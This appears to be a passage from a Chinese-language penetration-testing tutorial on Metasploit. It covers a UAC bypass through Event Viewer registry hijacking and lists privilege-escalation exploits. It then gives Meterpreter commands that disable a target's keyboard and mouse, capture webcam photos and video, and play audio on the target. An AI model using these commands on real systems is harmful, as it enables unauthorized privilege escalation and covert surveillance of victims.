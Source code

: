 首先介绍一下这个模块，此模块将通过在当前用户配置单元下劫持注册表中的特殊键并插入将在启动Windows事件查看器时调用的自定义命令来绕过Windows UAC。它将生成关闭UAC标志的第二个shell。此模块修改注册表项，但在调用payload后将清除该项。该模块不需要payload的体系架构和操作系统匹配。如果指定EXE ::Custom，则应在单独的进程中启动payload后调用ExitProcess（）。

use exploit/windows/local/bypassuac_eventvwr

set session 1

Exploit

以上的本地提权的模块大家可以本地去测试一下，除了这些某块还有其它的通过直接通过incognito中的add_localgroup_user提升、ms13-081、ms15-051、ms16-032、MS16-016、MS14-068、ms18_8120_win32k_privesc域权限提升等其它的权限提升方法。小白在内网渗透测试的过程中发现一些客户的服务器大多数为2003、2008服务器，很少2012、2016服务器。

内网渗透



------------------------------------------------------------

* # 以下代码谨慎使用 

## uictl开关键盘/鼠标

```
uictl [enable/disable] [keyboard/mouse/all]  #开启或禁止键盘/鼠标
```
```
uictl disable mouse  #禁用鼠标
```
```
uictl disable keyboard  #禁用键盘
```


## webcam摄像头命令

```
webcam_list  #查看摄像头
```
```
webcam_snap   #通过摄像头拍照
```
```
webcam_stream   #通过摄像头开启视频
```
## 在目标系统播放目标文件

```
play /root/1.mp3
```
## 查看 == ls
```
 pwd 
```
## meterpreter load
